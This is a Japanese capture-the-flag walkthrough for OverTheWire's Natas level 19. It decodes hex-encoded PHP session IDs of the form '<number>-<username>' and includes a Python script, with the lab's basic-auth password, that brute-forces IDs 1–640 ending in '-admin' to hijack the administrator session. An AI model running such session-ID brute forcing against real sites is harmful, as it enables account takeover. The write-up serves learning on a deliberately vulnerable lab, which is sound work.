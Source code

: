![](img/natas19-1.png)  

前の問題(natas18）のphpコードと似ているが今度はセッションIDが連続ではないらしい。  

適当に"test/test"でログインしてみる。  
またURLのクエリパラメータに"debug"をつけてリクエストを行う。  

![](img/natas19-2.png)  

開発者ツールからCookieを確認してみる。  

![](img/natas19-3.png)  


PHPSESSIDが`3236352d74657374`とある。  
16進数ぽいのでdecodeを行ってみると、  

![](img/natas19-4.png)  

`3236352d74657374`が`265-test`となった。  

前回の問題ではセッションIDが1〜640だったので今回も、  
セッションIDが <1~640>-<username> という形式で作られていると予想できる。（16進に変換されて）  


前回使用したpythonコードを改変した以下のコードを使用する。  

```
import requests
import string
from requests.auth import HTTPBasicAuth

basicAuth=HTTPBasicAuth('natas19', 'tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr')

MAX = 640
count = 1

u="http://natas19.natas.labs.overthewire.org/index.php?debug"

while count <= MAX:
    sessionID = "PHPSESSID=" + (str(count) + "-admin").encode("utf-8").hex()
    print(sessionID)

    headers = {'Cookie': sessionID}
    response = requests.get(u, headers=headers, auth=basicAuth, verify=False)

    if "You are logged in as a regular user" not in response.text:
        print(response.text)

    count += 1

print("Done!")
```

実行してしばらく待つと、`281-admin`でflagが表示される。  

